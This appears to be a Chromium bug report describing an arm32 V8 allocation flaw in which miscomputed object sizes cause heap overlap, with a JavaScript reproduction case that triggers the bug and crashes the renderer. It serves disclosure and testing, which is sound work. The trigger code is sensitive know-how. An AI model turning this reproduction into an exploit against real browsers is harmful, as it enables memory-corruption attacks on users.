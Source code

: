 <b>VULNERABILITY DETAILS</b>

The arm32 implementation of V8's MacroAssembler::Allocate(int object_size, ...) can get confused about its handrolled object_start + object_size computation: the "add" instructions (except for the first) erroneously use the "cc" condition (carry bit set), which is not updated by the allocation code sequence, but inherited from whatever code ran before. This results in a too-low object_end being compared against the allocation limit. The allocation appears to succeed, but the returned object has a larger size than what was checked and recorded, so it might extend beyond the end of the current page, or overlap with the next object.


<b>VERSION</b>
Chrome Version: 52 to ToT
Operating System: all arm32 platforms (Android, ChromeOS)


<b>REPRODUCTION CASE</b>

// Flags: --allow-natives-syntax

var g_eval = eval;
function emit_f(size) {
  var body = "function f(x) {" +
             "  if (x < 0) return x;" +
             "  var a = [1];" +
             "  if (x > 0) return [";
  for (var i = 0; i < size; i++) {
    body += "0.1, ";
  }
  body += "  ];" +
          "  return a;" +
          "}";
  g_eval(body);
}

// Length must be big enough to make the backing store's size not fit into
// a single instruction's immediate field (2^12).
var kLength = 701;
emit_f(kLength);
f(1);
f(1);
%OptimizeFunctionOnNextCall(f);
var a = f(1);

// Allocating something else should not disturb |a|.
var b = new Object();
for (var i = 0; i < kLength; i++) {
  assertEquals(0.1, a[i]);
}

// Allocating more should not crash.
for (var i = 0; i < 300; i++) {
  f(1);
}


<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash State: segfault
